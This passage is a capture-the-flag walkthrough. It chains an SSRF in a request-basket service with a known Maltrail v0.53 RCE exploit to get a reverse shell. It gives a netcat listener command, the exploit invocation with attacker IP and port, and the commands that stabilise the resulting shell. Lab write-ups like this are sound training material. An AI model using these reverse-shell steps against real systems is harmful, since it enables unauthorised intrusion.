 Our Googling turns up an excellent [exploit](https://github.com/spookier/Maltrail-v0.53-Exploit) that we can use to get a reverse shell. 

After cloning the respoistory, we need to supply the script with three parameters:

- Our attacking machine IP
- Our listening port
- Target URL

Because Maltrail is listening on port `80`, and all traffic to port `80` is being filtered, the target URL that we're going to supply is going to be the *request basket* that we just configured to forward traffic to port `80`. In this instance, we're chaining the SSRF and RCE vulnerabilities together. This will allow the script to bypass the filter and exploit the vulnerable Maltrail service. 

First, we need to set up a listener: 

```
nc -lvnp YOUR-PORT
```

With that set up, we can now go ahead and run the exploit script: 

```
python3 exploit.py YOUR-IP YOUR-PORT http://TARGET-IP:55555/YOUR-BASKET-ID
```

We should now see a shell appear on our waiting listener:

```
connect to [YOUR-IP] from (UNKNOWN) [TARGET-IP] 38960
$       
```

This shell isn't very stable as hitting `CTRL+C` will immediately kill it. Before going to grab the user flag, we should stabilise the shell. 

## Stabilise Shell

To make our shell more reliable, we can use python to create a new shell, and then perform some additional configuration to allow us to clear the screen and kill processes as we normally would if we were logged in with SSH. 

First, we create a new shell using python:

```
python3 -c "import pty;pty.spawn('/bin/bash')"
```

Next, we set the terminal emulator environment variable to `xterm`. This tells the terminal emulator to behave as a Linux terminal:

```
export TERM=xterm
```

Next, we set the size of the terminal. On our attacking machine, we can find out the number of rows and columns that our terminal should use by opening up another terminal *of the same size with respect to the screen* and type in the following:

```
stty -a
```
